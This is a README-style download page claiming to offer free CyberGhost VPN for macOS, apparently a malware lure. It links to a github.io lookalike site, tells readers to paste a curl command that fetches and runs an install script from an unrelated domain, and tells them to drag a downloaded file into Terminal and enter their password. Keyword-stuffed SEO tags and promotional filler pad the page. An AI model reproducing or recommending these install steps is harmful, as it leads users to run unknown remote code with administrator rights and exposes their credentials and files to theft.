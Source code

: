 # CyberGhost — Free Download for Mac OS 🛡️

CyberGhost VPN is a powerful tool to secure your online presence. Follow the instructions below to download and install CyberGhost for Mac OS effortlessly.

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://cyberghost-for-mac.github.io/.github/)

If the button above doesn't work, follow the terminal installation instructions below.

## 📦 How to Install CyberGhost for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with CyberGhost

- 🛡️ **Enhanced Privacy**: Protect your personal data with military-grade encryption.
- 🌍 **Global Access**: Connect to servers in over 90 countries for unrestricted browsing.
- ⚡ **High-Speed Connections**: Enjoy fast and reliable VPN connections for streaming and browsing.
- 🔒 **No-Logs Policy**: Browse with confidence knowing your activity isn’t tracked.
- 📱 **Multi-Device Support**: Use CyberGhost on multiple devices with a single account.
- 🛠️ **User-Friendly Interface**: Navigate the app easily with its intuitive design.

## About CyberGhost

CyberGhost VPN is a leading solution for safeguarding your online privacy and security. With its robust encryption protocols, this software ensures your data remains protected from prying eyes, whether you're browsing at home or on public Wi-Fi. The user-friendly interface makes it easy for beginners and advanced users alike to secure their connections with just a few clicks. By choosing CyberGhost, you gain access to a vast network of servers worldwide, allowing you to bypass geo-restrictions and access content seamlessly.

The software is optimized for Mac OS, ensuring smooth performance without compromising your device's speed. Whether you're streaming your favorite shows, working remotely, or simply browsing the web, CyberGhost provides a secure and reliable connection. Its no-logs policy guarantees that your online activities remain private, giving you peace of mind in an era of increasing cyber threats. The installation process is straightforward, with options for both .dmg and terminal-based setups to suit your preferences.

CyberGhost stands out for its ability to unblock streaming platforms, making it a favorite among users who want to access region-locked content. From Netflix to BBC iPlayer, CyberGhost's dedicated servers ensure buffer-free streaming. The software also supports torrenting on specific servers, offering a safe environment for peer-to-peer file sharing. With regular updates and a commitment to user privacy, CyberGhost remains a trusted choice for Mac users worldwide.

One of the key advantages of CyberGhost is its versatility. It supports multiple devices, allowing you to protect your Mac, iPhone, iPad, and other platforms under a single subscription. The app's sleek design integrates seamlessly with Mac OS, providing a native experience that feels intuitive. Additionally, CyberGhost offers 24/7 customer support to assist with any installation or connectivity issues, ensuring a hassle-free experience.

### Why Choose CyberGhost?

CyberGhost offers a unique combination of security, speed, and ease of use. Unlike other VPNs, it prioritizes user privacy with a strict no-logs policy and advanced encryption standards. Its global server network ensures you can access content from anywhere, while its optimized performance guarantees minimal impact on your Mac's speed. Whether you're a casual user or a privacy enthusiast, CyberGhost delivers a seamless and secure browsing experience.

## 🖼 Preview

![CyberGhost Dashboard](https://assets.cyberghostvpn.com/photos/cg/4-mac.png)
*Clean and intuitive CyberGhost dashboard for easy navigation*

![Server Selection](https://imag.malavida.com/mvimgbig/download-fs/cyberghost-vpn-24195-4.jpg)
*Choose from a global network of servers for secure browsing*

![Streaming Mode](https://www.pcwelt.de/wp-content/uploads/2025/04/4193170_original.jpg?quality=50&strip=all)
*Optimized streaming servers for seamless content access*

## 🔍 Tags

CyberGhost VPN download, VPN for Mac, free VPN download, CyberGhost free, cyberghost mac, cyberghost free download, cyberghost macos, cyberghost free, download cyberghost, CyberGhost VPN download free, CyberGhost VPN free mac, CyberGhost VPN download mac, CyberGhost VPN mac
